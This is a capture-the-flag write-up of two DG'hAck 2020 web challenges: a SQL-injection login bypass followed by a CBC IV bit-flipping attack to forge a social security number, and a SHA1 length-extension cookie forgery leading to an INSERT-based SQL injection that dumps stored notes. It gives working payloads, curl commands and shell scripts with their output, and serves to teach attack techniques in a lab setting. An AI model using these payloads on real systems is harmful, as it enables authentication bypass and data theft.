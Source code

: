 ```yaml
---
title: "DG'hAck: Sad Crypto and Stickitup"
date: 2020-12-02T13:43:03+01:00
categories:
  - dghack2020
summary: "Another DG'hAck 2020 challenges: sad crypto & stickitup"
---
```


# Sad Crypto

The challenge is now to retrieve encryption keys from a SSN web service. You'll face a login/password form with a captcha at first. It will be easily breakable using a basic SQL injection. I mean, login `" or 1=1;--`, password `" or 1=1;--` will just work.

Once logged-in, you'll find out you can't query for your target. However, there is quite a few another entries, like `Bruce Wayne`, in the database. Querying for this user will return the encryption key `797b4c-c4bd852fe0e32ebda194cb2a9fe00099`.

Following the requests, you'll find out that it will start by:

```sh
curl 'http://sadcrypto.chall.malicecyber.com/api/v1/validate' \
  -H 'authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjpbeyJpZCI6MX1dLCJpYXQiOjE2MDYyOTA1NTQsImV4cCI6MTYwNjQ2MzM1NH0.jkPNS-jZT8HzDTsQnu3Clbp4xXiJVZI1dgQNrJCvRgI' \
  --data-raw 'ssn=1-78-67-78-356-789-12'
... snip ...
{"success":true,"message":"","data":{"keyRequest":"33fbce50e4643f46a70a5e9b79d9897937ba685ef43821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4"}}
```

and will continue with

```sh
curl 'http://sadcrypto.chall.malicecyber.com/api/v1/keygen/33fbce50e4643f46a70a5e9b79d9897937ba685ef43821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4' \
  -H 'authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjpbeyJpZCI6MX1dLCJpYXQiOjE2MDYyOTA1NTQsImV4cCI6MTYwNjQ2MzM1NH0.jkPNS-jZT8HzDTsQnu3Clbp4xXiJVZI1dgQNrJCvRgI'
... snip ...
{"success":true,"message":"","hash":"797b4cc4bd852fe0e32ebda194cb2a9fe00099427615c4aae33ad77c9fa298fd"}
```

If we try with our target SSN (`1-46-85-30-750-318-37`), it will fail:

```sh
$ curl 'http://sadcrypto.chall.malicecyber.com/api/v1/validate'   -H 'authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjpbeyJpZCI6MX1dLCJpYXQiOjE2MDYyOTA1NTQsImV4cCI6MTYwNjQ2MzM1NH0.jkPNS-jZT8HzDTsQnu3Clbp4xXiJVZI1dgQNrJCvRgI'   --data-raw 'ssn=1-46-85-30-750-318-37'
... snip...
{"success":false,"message":"Cette ressource est verrouillée"}
```

Okay, sad. Let's get back to the last query, and modify a bit, just to find out what it will do:

```sh
$ curl 'http://sadcrypto.chall.malicecyber.com/api/v1/keygen/33fbc750e4643f46a70a5e9b79d9897937ba685ef43821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4'
   -H 'authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjpbeyJpZCI6MX1dLCJpYXQiOjE2MDYyOTA1NTQsImV4cCI6MTYwNjQ2MzM1NH0.jkPNS-jZT8HzDTsQnu3Clbp4xXiJVZI1dgQNrJCvRgI'
... snip...
{"ssn":"1->8-67-78-356-789-12","success":false,"message":"le numéro de sécurité sociale soumis est invalide"}
```

Oh. It modified the SSN. So, the `keyRequest` field is somewhat linked with SSN. Most likely, the SSN is in fact encrypted. As the SSN is 21 bytes, the keyRequest 48 bytes, and modifying a single bit in the first bytes of the `keyRequest`, than we're facing to some crypto with an IV vulnerable to some bitflipping attack. Modifying more bytes will confirm this, because modifying the 17th byte will rewrite the whole first block, meaning we are facing some CBC block cryptography. `keyRequest` is in the form

```
[.......IV.......][....block 1.....][....block 2.....]
```

Modifying IV will modifying uncrypted block 1 because of CBC (as IV is xoring result of unencryption of block1). Modifying crypted block1 will modify uncrypted block2, and so on. So, to modify the SSN from Bruce Wayne's to our target's, we must flip bits from encrypted 1st block, then flip bits from IVs. To do this, I wrote & used 2 tools:

```sh
$ ./test_crypto 1-78-67-78-356-789-12 33fbce50e4643f46a70a5e9b79d9897937ba685ef43821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4
new: 33fbce50e4643f46a70a5e9b79d98979 3ebb685cf13821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4
```

```sh
$ curl 'http://sadcrypto.chall.malicecyber.com/api/v1/keygen/33fbce50e4643f46a70a5e9b79d989793ebb685cf13821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4'
   -H 'authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjpbeyJpZCI6MX1dLCJpYXQiOjE2MDYyOTA1NTQsImV4cCI6MTYwNjQ2MzM1NH0.jkPNS-jZT8HzDTsQnu3Clbp4xXiJVZI1dgQNrJCvRgI'
{"ssn":"\u0002ï¿½\u0006ï¿½ï¿½\u000e9Ç®\u0000ï¿½ï¿½S\u0003ï¿½18-37","success":false,"message":"le numéro de sécurité sociale soumis est invalide"}
```

2nd tool will bruteforce again API to find out the first bits to flip:

```sh
$ python bf eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjpbeyJpZCI6MX1dLCJpYXQiOjE2MDYyOTA1NTQsImV4cCI6MTYwNjQ2MzM1NH0.jkPNS-jZT8HzDTsQnu3Clbp4xXiJVZI1dgQNrJCvRgI 33fbce50e4643f46a70a5e9b79d989793ebb685cf13821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4

http://sadcrypto.chall.malicecyber.com/api/v1/keygen/00fbce50e4643f46a70a5e9b79d989793ebb685cf13821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4
{"ssn":"1?\u0006??\u000e9?\u0000??S\u0003?18-37","success":false,"message":"le num?ro de s?curit? sociale soumis est invalide"}
00
        ^
...

http://sadcrypto.chall.malicecyber.com/api/v1/keygen/0005fc9e38ce045253940d9b79d989793ebb685cf13821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4
{"ssn":"1-46-85-30S??S\u0003?18-37","success":false,"message":"le num?ro de s?curit? sociale soumis est invalide"}
                  ^
...

http://sadcrypto.chall.malicecyber.com/api/v1/keygen/0005fc9e38ce04525394734983baa79f3ebb685cf13821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4
{"ssn":"1-46-85-30-750-\t18-37","success":false,"message":"le num?ro de s?curit? sociale soumis est invalide"}
                       ^^
http://sadcrypto.chall.malicecyber.com/api/v1/keygen/0005fc9e38ce04525394734983baa7a03ebb685cf13821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4
{"success":true,"message":"","hash":"5c2b14d8b055058bd47fa73de886000eb264281fa5292cdf81dd896541dc1930"}
'ssn'

http://sadcrypto.chall.malicecyber.com/api/v1/keygen/0005fc9e38ce04525394734983baa7a13ebb685cf13821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4
{"success":true,"message":"","hash":"2f4746d53204699f60f2ba0f689bcee2d5ecc8e0c3fa042f883cedb949591e9c"}
'ssn'
```

At the end, we just need to test the last remaining hash (a couple), and once you've got the correct hash, to reformat it to get the flag: `2ed35b-fd91f07094b4447deac135cb8d4b6e45`.


# StickItUp

You're now facing a post-it like website: A registration form, a login form, a page to send write post-its, read them & delete them. Nothing fancy.

In the source code of the main page, we're seeing:

```php
<!-- $_COOKIES['auth'] = 'testuser:' . sha1(SECRET_KEY . 'testuser'); -->
```

This auth cookie is in the auth:hash form. Hash is doing 20 bytes because it is a sha1. It is definitely vulnerable to a [length extension attack](https://en.wikipedia.org/wiki/Length_extension_attack).

Before continuing, we'll retrieve valid cookie value (dump from chrome):

```sh
curl 'http://stickitup.chall.malicecyber.com/notes.php' \
  -H 'Referer: http://stickitup.chall.malicecyber.com/member.php' \
  -H 'Cookie: PHPSESSID=517sutmuivn1u443jh15u2dhu1; auth=testaroo%3A4e481149bcbd121513e4f1a0c2366c96e77bb676' \
  --data-raw 'title=new+note&text=new+content'
```

We'll make use of [hash extender](https://github.com/iagox86/hash_extender) to guess the key size.

```sh
#!/bin/sh

HASHEXT=$HOME/tmp/hash_extender/hash_extender

for i in $(seq 1 30); do
    out=$($HASHEXT -f sha1 -s cbbd5ced55a1924075dca803f727b7f5eaabdf90 -d aaaa0 -a A -l $i --out-data-format=html --table)

    user=$(echo $out | cut -d ' ' -f3)
    sig=$(echo $out | cut -d ' ' -f2)

    curl -s 'http://stickitup.chall.malicecyber.com/member.php' -H "Cookie: PHPSESSID=n4um3fehrhrp0834uidgp7ljj4; auth=$user:$sig" |grep "Add note"
    res=$?
    echo "secret:$i:$res"
done
```

As a result:

```sh
$ sh check_cookie.sh
secret:1:1
secret:2:1
...
secret:15:1
Binary file (standard input) matches
secret:16:0
...
```

Key is 16 bytes long. We just needed that. Now, we can craft any valid username:hash values. As the new user value is trusted by the website, it is still required to find the vulnerability to exploit it using our user. With more research, we find out using `or sleep(1)` in the `username` than the website is vulnerable to a SQL injection in the username:

```sh
testaroo%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%c0%27+or+sleep%281%29+or+%271%27%3d%271:9d156c0f4247f9a3ca6056ccebf7d6c65f26dfb2
```

As we're running this in the `notes.php` query, which creates a post-it, we can safely conclude we're in an `INSERT` query. The query is most likely:

```sql
INSERT INTO posts(alias, title, text) VALUES('testaroo<--- payload --->', 'title', 'note');
```

We can make use of multiple record inserts to add anything we want in the query, like:

```sql
INSERT INTO posts(alias, title, text) VALUES('alias1','title','note'),('alias','title','note'),('alias','title','note');
```

To enable this, we create a quick script

```sh
#!/bin/sh

query=$(echo -n $1 | xxd -p)
query=$1

if test "x$query" = "x"; then
    exit 0
fi

base_user=testaroo
base_pass=4e481149bcbd121513e4f1a0c2366c96e77bb676
base_cookie=517sutmuivn1u443jh15u2dhu1

stuff=$(./hash_extender/hash_extender -f sha1 -s $base_pass -a "$query" -l 16 -d $base_user --out-data-format=html --table)

user=$(echo $stuff|cut -d' ' -f3)
pass=$(echo $stuff|cut -d' ' -f2)

echo $user:$pass

title=title$RANDOM
text=text$RANDOM

echo "Doing: INSERT INTO posts (alias, title, text) VALUES (\"$user\", \"$title\", \"$text\");"

curl -v 'http://stickitup.chall.malicecyber.com/notes.php' \
  -H 'Origin: http://stickitup.chall.malicecyber.com' \
  -H "Cookie: PHPSESSID=${base_cookie}; auth=$user:$pass" \
  --data-raw "title=${title}&text=${text}"

echo; echo; echo

curl -sv 'http://stickitup.chall.malicecyber.com/member.php' --output - \
  -H "Cookie: PHPSESSID=n4um3fehrhrp0834uidgp7ljj4; auth=$user:$pass" |sed -e 's/<[^>]*>//g' | sed '/^[[:space:]]*$/d'

decoded_user=$(echo $user |python3 -c "import sys; from urllib.parse import unquote; print(unquote(sys.stdin.read()));" 2>/dev/null)

echo "Doing: INSERT INTO posts (alias, title, text) VALUES (\"$decoded_user\", \"$title\", \"$text\");"
```

As a result, we create a new post-it with all values from all existing post-its:

```sh
$ sh query.sh 'a","a","b"),("testaroo", "title", (SELECT titles FROM (SELECT GROUP_CONCAT(content SEPARATOR ",") as titles FROM note) a)),("testaroo'
testaroo%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%c0a%22%2c%22a%22%2c%22b%22%29%2c%28%22testaroo%22%2c+%22title%22%2c+%28SELECT+titles+FROM+%28SELECT+GROUP%5fCONCAT%28content+SEPARATOR+%22%2c%22%29+as+titles+FROM+note%29+a%29%29%2c%28%22testaroo:8884b6aa3589f5d0ff7beeb72b1b0845f5df55ec
...
Doing: INSERT INTO posts (alias, title, text) VALUES ("testarooï¿½ï¿½a","a","b"),("testaroo",+"title",+(SELECT+titles+FROM+(SELECT+GROUP_CONCAT(content+SEPARATOR+",")+as+titles+FROM+note)+a)),("testaroo", "title11968", "text30311");
```

And checking our post-its, we'll find out that the flag is `-+-{{akUX7Aihx9}}-+-`.
